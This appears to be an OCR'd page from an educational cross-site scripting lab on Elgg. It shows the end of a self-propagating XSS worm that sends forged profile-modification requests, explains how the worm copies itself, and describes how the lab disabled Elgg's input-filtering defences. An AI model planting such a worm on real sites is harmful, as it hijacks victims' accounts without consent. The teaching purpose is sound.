 ```html

        //Create and send Ajax request to modify profile
        if(elgg.session.user.guid!=attackerGuid){
            var Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Host", "www.seed-server.com");
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```

It should be noted that `innerHTML` only gives us the inside part of the code, not including the surrounding `script` tags. We just need to add the beginning tag `<script id="worm">` (line ) and the ending tag `</script>` (line ) to form an identical copy of the malicious code.

When data are sent in HTTP POST requests with the `Content-Type` set to `application/x-www-form-urlencoded`, which is the type used in our code, the data should also be encoded. The encoding scheme is called _URL encoding_, which replaces non-alphanumeric characters in the data with `%HH`, a percentage sign and two hexadecimal digits representing the ASCII code of the character. The `encodeURIComponent()` function in line is used to URL-encode a string.

## Elgg's Countermeasures

This sub-section is only for information, and there is no specific task to do. It shows how Elgg defends against the XSS attack. Elgg does have built-in countermeasures, and we have disabled them to make the attack work. Actually, Elgg uses two countermeasures. One is a custom built security plugin `HTMLawed`, which validates the user input and removes the tags from the input. We have commented out the invocation of the plugin inside the `filter_tags()` function in `input.php`. See the following:

```js
function filter_tags($var) {
    // return elgg_trigger_plugin_hook('validate', 'input', null, $var);
    return $var
}
```

In addition to `HTMLawed`, Elgg also uses PHP's built-in method `htmlspecialchars()` to encode the special characters in user input, such as encoding `"<"` to `"&lt"`, `">"` to `"&gt"`, etc. This method is invoked in `dropdown.php`, `text.php`, and `url.php` inside the folder. We have commented them out to turn off the countermeasure.
